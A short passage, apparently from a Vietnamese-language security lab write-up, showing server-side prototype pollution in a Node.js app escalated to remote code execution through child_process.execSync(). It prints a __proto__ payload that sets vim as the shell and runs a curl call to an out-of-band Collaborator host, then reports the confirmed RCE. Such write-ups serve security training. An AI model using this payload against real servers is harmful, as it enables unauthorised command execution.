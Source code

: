 Thay thế proto bằng một payload nhắm vào `child_process.execSync()`, sử dụng `vim` làm shell và một lệnh `curl` để kiểm tra RCE:

```jsx
"__proto__": {
    "shell": "vim",
    "input": ":! curl https://abcdef.oastify.com\n"
  }
```

![image.png](Images/image%2026.png)

![image.png](Images/image%2027.png)

Burp Collaborator nhận được nhiều yêu cầu HTTP, xác nhận rằng lệnh curl đã được thực thi. ⇒ RCE 

Liệt kê thư mục `/home/carlos`

